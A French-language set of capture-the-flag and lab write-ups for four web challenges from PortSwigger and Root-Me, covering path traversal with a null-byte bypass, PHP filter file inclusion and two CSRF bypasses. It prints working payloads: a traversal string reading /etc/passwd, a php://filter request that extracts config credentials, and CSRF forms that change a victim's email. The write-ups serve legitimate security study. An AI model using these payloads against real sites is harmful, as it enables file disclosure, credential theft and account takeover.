# 1. PortSwigger – File Path Traversal (Null Byte Bypass)

**Lab :** https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass

## Objectif
Exploiter une vulnérabilité de type *file path traversal* afin d’accéder au fichier `/etc/passwd` malgré une validation d’extension sur les images.

## Étapes réalisées

### 1. Configuration
Démarrage de la VM Kali, lancement de Burp Suite, configuration du proxy navigateur vers `127.0.0.1:8080`.



### 2. Interception de la requête image
Navigation vers un produit puis actualisation avec Burp Intercept activé pour capturer la requête de chargement d’image.

### 3. Injection du Path Traversal et Null Byte
Dans Burp Repeater, remplacement du paramètre `filename` par :

../../../etc/passwd%00.png



### 4. Résultat
La réponse contient le contenu du fichier `/etc/passwd` et le lab est validé.

  


---

# 2. Root-Me – PHP Filters

**Challenge :** https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters

## Objectif
Récupérer le mot de passe administrateur d’une application vulnérable à une inclusion de fichier local (LFI).

## Étapes réalisées

L’application inclut dynamiquement un fichier via un paramètre GET :

?inc=

Pour contourner l’exécution du fichier PHP, le wrapper filter permet d’obtenir son contenu en clair :

php://filter/convert.base64-encode/resource=config.php

Exemple de requête :

http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php



Décodage du Base64 :



Connexion avec les identifiants récupérés :

  


---

# 3. Root-Me – CSRF : Contournement de Jeton

**Challenge :** https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton

## Objectif
Activer un compte en contournant la protection CSRF grâce à un jeton généré dynamiquement et réutilisé dans un formulaire malveillant.

## Étapes réalisées

1. Création d’un compte puis connexion.  
2. Navigation dans Profil > Contact.  
3. Injection du code suivant dans le message afin de générer un token valide, l’insérer dans un formulaire puis soumettre automatiquement ce formulaire.

### Code injecté

<form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
  <input id="username" type="text" name="username" value="test">
  <input id="status" type="checkbox" name="status" checked>
  <input id="token" type="hidden" name="token" value="" />
  <button type="submit">Submit</button>
</form>



Résultat : activation du compte.



---

# 4. PortSwigger – CSRF Token Not Tied to User Session

**Lab :** https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

## Objectif
Démontrer que le token CSRF n’est pas lié à la session et peut être utilisé pour d’autres utilisateurs, puis construire un exploit via l’exploit server.

## Étapes réalisées

### 1. Récupération du token
Connexion en tant que `wiener`. Interception de la requête de mise à jour d'email :



Token récupéré :

csrf=4zaPwfHSIxT1Z11nALHCaz7mNXPd9nua

### 2. Test sur un autre utilisateur
Connexion en tant que `carlos`. Interception de la requête POST, remplacement du token par celui de `wiener`. La requête est acceptée.

  


### 3. Construction de l’exploit
Récupération d’un token valide puis insertion du code HTML suivant dans l’exploit server :

<html>
  <body>
    <form action="https://0a2700900473d044809b807900b2006c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="victime@evil.com">
      <input type="hidden" name="csrf" value="B4BQxMP6XwWUoNeBJi35XDpvLvHAF223">
    </form>

    
  </body>
</html>



Validation du lab :



